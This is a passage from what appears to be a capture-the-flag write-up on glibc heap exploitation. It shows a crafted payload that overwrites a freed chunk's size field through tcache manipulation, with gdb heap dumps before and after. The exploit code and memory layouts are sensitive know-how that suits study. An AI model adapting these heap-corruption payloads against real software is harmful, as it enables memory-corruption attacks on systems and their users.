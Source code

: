 ```  
create(0,0x40, b'VVV')  
```  
```  
0x56257ccda290: 0x0000000000000000      0x0000000000000021 <--- chunk D. Free  
0x56257ccda2a0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda2b0: 0x0000000000000000      0x0000000000000051 <--- chunk E.
Malloc  
0x56257ccda2c0: 0x0000000000565656      0x0000000000000000  
0x56257ccda2d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda300: 0x0000000000000000      0x00000000000000a1 <--- chunk F. Free  
0x56257ccda310: 0x0000000000000000      0x000056257ccda010  
0x56257ccda320: 0x0000000000000000      0x0000000000000000  
0x56257ccda330: 0x0000000000000000      0x0000000000000000  
0x56257ccda340: 0x0000000000000000      0x0000000000000000  
0x56257ccda350: 0x0000000000000000      0x0000000000000000  
0x56257ccda360: 0x0000000000000000      0x0000000000000000  
0x56257ccda370: 0x0000000000000000      0x0000000000000000  
0x56257ccda380: 0x0000000000000000      0x0000000000000000  
0x56257ccda390: 0x0000000000000000      0x0000000000000000  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1  
```

after that I construct a payload that will use the underflow to change the
size of E to 0x21. But before that, E will be freed into tcache 0x51. for the
overflow I will use chunk F that I will allocate back from tcache 0xa0

```  
payload = 0x80 * b'B' <--- 128 Bs to overflow char  
payload += p64(0)  
payload += p64(0x21) <--- size of D. We leave it as it was  
payload += p64(0)  
payload += p64(0)  
payload += p64(0)  
payload += p64(0x21) <--- size of E. We change it to 0x21>  
create(0,0x90,payload) <--- chunk F from tcache>  
```  
```  
0x56257ccda290: 0x0000000000000000      0x0000000000000021 <--- chunk D. Free  
0x56257ccda2a0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2b0: 0x0000000000000000      0x0000000000000021 <--- chunk E. Free  
0x56257ccda2c0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda2d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda300: 0x0000000000000000      0x00000000000000a1 <--- chunk F.
Malloc  
0x56257ccda310: 0x4242424242424242      0x4242424242424242  
0x56257ccda320: 0x4242424242424242      0x4242424242424242  
0x56257ccda330: 0x4242424242424242      0x4242424242424242  
0x56257ccda340: 0x4242424242424242      0x4242424242424242  
0x56257ccda350: 0x4242424242424242      0x4242424242424242  
0x56257ccda360: 0x4242424242424242      0x4242424242424242  
0x56257ccda370: 0x4242424242424242      0x4242424242424242  
0x56257ccda380: 0x4242424242424242      0x4242424242424242  
0x56257ccda390: 0x0000000000000000      0x0000000000000000  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1  
```
